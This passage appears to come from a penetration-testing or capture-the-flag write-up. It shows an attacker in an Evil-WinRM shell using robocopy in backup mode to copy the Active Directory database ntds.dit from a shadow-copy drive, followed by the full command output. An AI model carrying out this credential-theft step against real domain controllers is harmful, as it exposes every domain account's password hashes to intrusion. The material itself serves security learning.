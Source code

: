 Now we have created a shadow copy of the ntds.dit file we can then extract this from the network drive with robocopy.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> robocopy /B E:\Windows\NTDS .\ntds ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Friday, May 16, 2025 10:55:33 PM
   Source : E:\Windows\NTDS\
     Dest : C:\Users\Caroline.Robinson\Desktop\ntds\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

          New Dir          1    E:\Windows\NTDS\
            New File              16.0 m        ntds.dit
  0.0%
  0.3%
  0.7%
  1.1%
  1.5%
  1.9%
  2.3%
  2.7%
  3.1%
  3.5%
  3.9%
<SNIP>
 98.8%
 99.2%
 99.6%
100%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         1         0         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   16.00 m   16.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           98,112,374 Bytes/sec.
   Speed :            5,614.035 MegaBytes/min.
   Ended : Friday, May 16, 2025 10:55:33 PM
```
